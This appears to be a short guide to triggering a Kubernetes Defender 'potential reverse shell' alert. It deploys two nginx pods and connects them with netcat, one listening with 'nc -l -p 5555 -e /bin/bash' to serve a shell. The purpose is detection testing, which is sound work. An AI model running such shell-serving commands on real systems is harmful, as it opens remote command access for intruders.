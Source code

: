 # Detection of a potential reverse shell

Analysis of processes running within a container or directly on a Kubernetes node, has detected a potential reverse shell. These are used to get a compromised machine to call back into a machine an attacker owns

This is categorized as a Medium severy alert

This alert maps to Exfiltration and Explotation with MITRE ATT&CK® tactics

Create a deployment definition file as this

we will use 2 pods, one as the server listening for incoming connections and another as the client which will issue reverse shell commands

```
apiVersion: apps/v1
kind: Deployment
metadata:
  name: nginx-deployment
  labels:
    app: nginx
spec:
  replicas: 2
  selector:
    matchLabels:
      app: nginx
  template:
    metadata:
      labels:
        app: nginx
    spec:
      containers:
      - name: nginx
        image: nginx:1.14.2
```
Now we need to find the ip address of the 2 new deployed pods
```
kubectl get pods -o wide
```

Enter into one of the pods used as the server
```
kubectl exec -it <name-of-serverpod> -- /bin/bash
```
and issue netcat to listen to incoming connections of a port of choice
```
nc -n -v -l -p 5555 -e /bin/bash
```
Enter into the client pod and issue the netcat command
```
nc <ipaddress-of-serverpod> 5555

and wait for the Defender alert to appear

![reverse-shell](/images/reverse-shell.png)